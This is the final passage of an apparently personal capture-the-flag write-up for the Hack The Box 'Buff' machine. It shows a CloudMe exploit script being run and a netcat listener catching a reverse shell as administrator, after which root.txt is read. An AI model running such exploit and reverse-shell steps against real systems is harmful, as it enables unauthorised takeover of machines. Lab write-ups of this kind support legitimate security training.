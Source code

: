 ```shell
ezi0x00@kali:~/HTB/Buff$ python3 cloudme_exploit.py 
ezi0x00@kali:~/HTB/Buff$ 
```
The decisive moment has come:
```shell
ezi0x00@kali:~/HTB/Buff$ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.11] from (UNKNOWN) [10.10.10.198] 50156
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
buff\administrator

C:\Windows\system32>cd /users/Administrator/Desktop

C:\Users\Administrator\Desktop>type root.txt
type root.txt
d07cbe00baa710c0****************
```

And we pwned the Box !

Thanks for reading, Suggestions & Feedback are appreciated !

